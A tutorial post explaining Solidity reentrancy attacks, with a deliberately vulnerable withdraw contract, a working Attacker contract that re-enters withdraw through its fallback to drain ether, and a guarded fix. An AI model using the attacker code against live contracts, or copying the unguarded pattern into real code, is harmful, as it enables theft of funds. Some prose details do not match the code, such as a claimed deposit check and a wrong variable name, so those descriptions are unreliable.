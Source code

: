 # Solidity Attack Vectors: #1 - Reentrancy Attack

Reentrancy attacks are a well-known vulnerability in Solidity, with many projects falling victim to this type of attack(The DAO Hack).

## What is Reentrancy?

Reentrancy attacks occur when an attacker(usually a contract) is able to call a function in another contract repeatedly before that function has a chance to finish executing, allowing the attacker to drain the contract's resources or manipulate its data.

### How does this happen?

Reentrancy happens in a simple way but can become very complex. A contract `A` makes an external call to contract `B`, while this call or function is still being executed, contract `B` calls back into contract `A` multiple times repeatedly until a predefined condition is met.

Here's a simple example of a contract vulnerable to reentrancy attack below:

```solidity
pragma solidity ^0.8.0;

contract ReentrancyVulnerable {
    mapping(address => uint256) public balances;

    function Deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function Withdraw() public {
        uint256 balance = balances[msg.sender];
        require(balance > 0);

        msg.sender.call{value: balance}("");
        balances[msg.sender] = 0;
    }
}
```

The contract includes a function called "deposit" that allows users to add funds to their balance by updating the "balances" mapping with the amount of ether being sent. This function only allows deposits if the amount is greater than zero. The contract also includes a "withdraw" function that allows users to transfer their balance to themselves and set their balance to zero. However, this design leaves the contract vulnerable to reentrancy attacks.

If a malicious contract repeatedly calls the "withdraw" function and includes a logic to recall the function, it can drain the balance of the targeted contract until it reaches zero. This is because the contract makes an external call (transferring ether out) before updating its state (setting the caller's balance to zero), leaving it open to exploitation.

Below is an example of a malicious contract created by an attacker to exploit the reentrancy vulnerable contract:

```solidity
pragma solidity ^0.8.0;

contract Attacker {
    ReentrancyVulnerable reentrancyVulnerable;

    constructor(ReentrancyVulnerable _reentrancyVulnerable) {
        reentrancyVulnerable = _reentrancyVulnerable;
    }

    fallback() external payable {
        if (address(reentrancyVulnerable).balance >= 1 ether) {
            reentrancyVulnerable.Withdraw();
        }
    }

    function Attack() public payable {
        reentrancyVulnerable.Deposit{value: 1 ether}();
        reentrancyVulnerable.Withdraw();
    }

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

The Attacker contract is able to exploit the ReentrancyVulnerable contract by repeatedly calling the "deposit" and "withdraw" functions within the "attack" function. This causes the "fallback" function in the Attacker contract to be triggered, which then initiates a reentrancy attack by continuously calling the "withdraw" function in the ReentrancyVulnerable contract as long as it has more than 1 ether. The vulnerability in the ReentrancyVulnerable contract lies in the fact that it transfers the ether before updating balances in the "withdraw" function, allowing the Attacker contract to continually exploit it.

# How to prevent Reentrancy Attack on smart contracts

To prevent reentrancy attacks, it is important to consider the following:

1. Use a mutex (mutual exclusion) pattern to block multiple calls to the same function(like the reentrancyGuard modifier technique).
2. Update the state of your contract before making external calls when applicable.
3. Carefully consider the order in which functions are called and which data is accessed.
4. Have your smart contract audited before deploying for production use.

Here is an example code on how to prevent reentrancy:

```solidity
pragma solidity ^0.8.0;
contract reentrancySafe {
    bool entered;
    mapping(address => uint256) balances;

    modifier reentrancyGuard() {
        require(!entered);
        entered = true;
        _;
        entered = false;
    }

    //use the reentrancy guard modifier
    function Withdraw() public reentrancyGuard {
        uint256 balance = balances[msg.sender];
        require(balance > 0);
        //update state by setting caller's balance to zero before transferring ether
        balances[msg.sender] = 0;

        msg.sender.call{value: balance}("");
    }
}
```

In this code, we have implemented a reentrancy guard to protect against attackers who may try to repeatedly call the "withdraw" function. The reentrancy guard works by using a boolean called "isEntered" that prevents the function from being recalled when it is set to true. To further secure the contract against vulnerabilities, we have also set the caller's balance before transferring Ether. By implementing these measures, we are able to fix a contract that was previously vulnerable to reentrancy attacks.

Thank you for reading, I hope this helps you to better understand reentrancy attacks and the preventive measures you can take.
